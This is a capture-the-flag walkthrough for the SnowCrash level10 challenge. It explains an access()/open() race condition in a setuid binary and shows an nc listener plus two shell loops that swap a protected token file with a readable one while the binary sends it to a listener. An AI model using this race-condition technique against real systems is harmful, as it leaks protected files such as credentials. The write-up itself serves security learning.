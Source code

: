 ## Walkthrough :

+ i started by executing **./level10**, this prints the usage 
```
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
```
+ tryied **strings level10** , the server is trying to connect to a host in 6969 port.
+ launched **netstat -l** the port wasn't open. so i opened it using :
```
nc -lk 6969
```
* i noticed the use of **access function** which gives the possiblity of a security hole.
	##### Description from stackexchange:
	+ *It is a race condition. You do the access(), then you do the open(). In the small time between the two calls, the file may have changed. Typically, the file is, say, /tmp/foo. Initially, the file is owned by some user (who is the bad guy of the story), and the target is some root-powered application. The application does the access(), sees that the file really belongs to the user, and thus thinks: "that's fine, it's his file, I can process it on his behalf". Then the bad guy quickly replaces the file with a symbolic link to /etc/shadow. The application has already taken the decision to open /tmp/foo, but when it does, it really opens and processes /etc/shadow*

+ i did two scripts : 
	+ the first to shift between 3 files (token , and two random files), 
	+ the second to send in loop a file i have access.
```
#!/bin/sh

while true
do
	mv token tmp
	mv file token
	mv tmp file
done
```

```
#!/bin/sh

while true
do
	./level10 file 0.0.0.0
done
```


## Ressources :
+ [race condition](https://web.ecs.syr.edu/\~wedu/Teaching/IntrCompSec/LectureNotes_New/Race_Condition.pdf)  
+ [access() Security Hole](https://stackoverflow.com/questions/7925177/access-security-hole)